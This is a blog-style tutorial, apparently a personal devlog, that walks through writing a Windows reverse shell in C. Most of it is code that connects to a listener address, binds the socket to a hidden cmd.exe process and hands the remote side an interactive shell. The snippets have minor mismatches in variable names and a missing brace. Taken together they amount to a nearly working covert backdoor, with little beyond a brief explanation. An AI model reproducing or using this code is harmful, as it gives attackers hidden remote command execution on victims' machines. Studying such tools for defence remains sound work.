

+++
title = "Reverse shell in C"
description = "Exploring Winsock, Windows process creation, standard handles, and the details behind reverse shells."
date = 2026-10-19
tags = ["c", "windows", "networking", "devlog", "cybersecurity"]
+++

# What's a reverse shell?

A reverse shell is a remote command-line session where the target machine connects outward to an attacker-controlled listener, rather than the attacker connecting directly into the target. Once connected, the attacker can type commands that execute on the target and see their output.

## How does it work?

1. The attacker starts listening on a port.
2. The target runs a program that opens a TCP connection to the attacker's listener.
3. The target redirects the stdin, stdout and stderr of the program to the connection.
4. The attacker terminal becomes an interactive shell on the target.

# What's a socket?

When two processes need to communicate, they need some way to exchange data. On an operating system, this is usually done through a syscall that exposes the underlying communication mechanism.

Sockets are one such abstraction. They provide endpoints that applications can use to send and receive data without having to implement the underlying networking protocols themselves.

A socket can be used for communication between processes on the same machine or between machines connected over a network. The details depend on the address family, socket type, and protocol being used.

For example, a TCP socket provides a reliable, ordered byte stream. It doesn't know whether those bytes represent text, a file, or something else. Interpreting the data is the application's responsibility.

# Implementation

## Connecting to the listener



The function will create a socket, that will take in the IP address and port number of the listener and return the socket.

```C
SOCKET ConnectToListener(char *listenerIP, char *listenerPort);
```

Initialize the `Winsock` library. This is required before we can use the functions for connection

```C
WSADATA wsaData;

if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
  printf("WSAStarup failed\n");
  return INVALID_SOCKET;
```

Create a socket.

```C
SOCKET shell = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
```

The socket is created with the following parameters:

- `AF_INET`: The address family is IPv4.
- `SOCK_STREAM`: the socket provides a continuous stream of bytes rather than a series of separate messages.
- `IPPROTO_TCP`: TCP is the underlying protocol used by the socket.
- The other parameter are set to NULL or 0 as they are they are not needed.

Now, create a connection to the listener.
Call the `WSASocket()` to create a socket. Check for errors and clean up on error.

```C
// shell_addr structure is declared and defined
  struct sockaddr_in shell_addr;
  shell_addr.sin_port = htons(port);
  shell_addr.sin_family = AF_INET;
  shell_addr.sin_addr.s_addr = inet_addr(ip);

  connect_result = WSAConnect(shell, (struct sockaddr *)&shell_addr,
                              sizeof(shell_addr), NULL, NULL, NULL, NULL);

// if WSAConnect fails
  if (connect_result == SOCKET_ERROR) {
    printf("Connection to server failed\n");
    closesocket(shell);
    WSACleanup();
    return INVALID_SOCKET;
  }

```

If there are no errors, it returns a valid shell socket.

## Running the shell

After the connection is established, we can run the shell. This involves creating a cmd.exe process and redirecting its stdin, stdout and stderr to the socket.

```C
void RunShell(SOCKET shell);
```

Create STARTUPINFO structure. and PROCESS_INFORMATION structure.

```C
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
```

Receive the socket and assign it to the stdin, stdout and stderr of the process.

```C
char recvbuf[512];
recv(shell, recvbuf, sizeof(recvbuf), 0);
memset(recvbuf, 0, sizeof(recvbuf));// fill the buffer with 0

si.cb = sizeof(si);
si.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);

// the socket is used as stdin, stdout and stderr of the process
si.hStdInput = (HANDLE)shell;
si.hStdOutput = (HANDLE)shell;
si.hStdError = (HANDLE) shell;

si.wShowWindow = SW_HIDE;
```

Create a cmd.exe process, with the STARTUPINFO si.

```C
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

WaitForSingleObject(pi.hProcess, INFINITE); // wait indefinitely for the process to finish or exit
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
```

## Main Function

Connect to server, run the shell clean up.

```C
int main(int argc, char *argv[]) {
  if (argc != 3) {
    printf("Usage: %s <ip> <port>\n", argv[0]);
    return -1;
  }

  SOCKET shell = ConnectToListener(argv[1], argv[2]);

  if (shell == INVALID_SOCKET) {
    printf("Failed to connect to listener\n");
    return 1;
  }

RunShell(shell);
closesocket(shell);
WSACleanup();
return 0;
```

Create a socket -> connect to listener -> create child process -> redirect socket to child process stdin, stdout and stderr -> wait for child process to finish -> close socket and cleanup
